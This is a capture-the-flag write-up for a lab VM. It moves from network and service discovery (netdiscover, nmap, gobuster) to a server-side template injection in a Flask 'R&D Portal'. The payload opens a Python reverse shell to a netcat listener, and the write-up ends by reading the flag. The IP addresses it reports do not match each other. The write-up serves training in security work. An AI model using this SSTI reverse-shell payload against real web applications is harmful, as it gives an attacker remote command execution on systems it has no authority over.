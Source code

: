 # Finding flag-1
The CTF machine produced by the .ova was inaccesssible due to unknown login credentials.\
**NOTE:** Make sure both attacker and target VM is in Bridged Network mode.

# Finding IP/website 
On our attacker (Kali) VM we run ```ip a``` to determine the attack interface/address:

```
$ ip a
2: eth0: ...
    inet 192.168.29.173/24 brd 192.168.29.255 scope global dynamic noprefixroute eth0
```

Our Kali IP is **192.168.29.173.**

We scan the subnet to find other hosts:\
```sudo netdiscover -r 192.168.29.0/24```

From the output we observed:
- ```08:00:27``` is a VirtualBox NIC.
- Host **192.168.29.28** with MAC ```08:00:27:4f:d9:a5``` is the CTF VM.

We run nmap to enumerate services on the target:\
```nmap -sC -sV 192.168.29.28```

Key results:
- ```22/tcp``` - OpenSSH 9.2p1 (Debian)
- ```5000/tcp``` - HTTP (Werkzeug httpd 3.1.3) — page title: **R&D Portal**

We visited:\
```http://192.168.29.28:5000```

We also ran a directory scan:\
```gobuster dir -u http://192.168.29.28:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```

That revealed a ```/pages``` route.

# Reverse Shell
The website had an input field which was vulnerable to SSTI (server-side template Injection).
## Steps followed:
1. Netcat (In kali terminal):
```
nc -nvlp 4444
```
2. Exploited the SSTI vulnerability using simple python payload
```
{{ ''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.1.6\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'') }}
```
where ```192.168.1.6``` is my kali machine's IP\
The above payload allowed to connect kali machine to the CTF machine

(Below is the Output in Kali terminal)
```
listening on [any] 4444 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.14] 58992
/bin/sh: 0: can't access tty; job control turned off
$
```
the tty is not accessed 
so we used pty in python to spawn into bin/bash
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then,we used the command ```ls``` to list all files in directory which gave...
```
www-data@ctf-machine:/opt/ssti-lab$ ls
app.py  F14@_0n3.txt  static  wget-log
```

And the command ```cat F14@_0n3.txt``` gave the flag
```
www-data@ctf-machine:/opt/ssti-lab$ cat F14@_0n3.txt
FLAG -> S3Cur1ty_Br3@k_P@55ed
```

```Flag: TCQ2025{S3Cur1ty_Br3@k_P@55ed}```
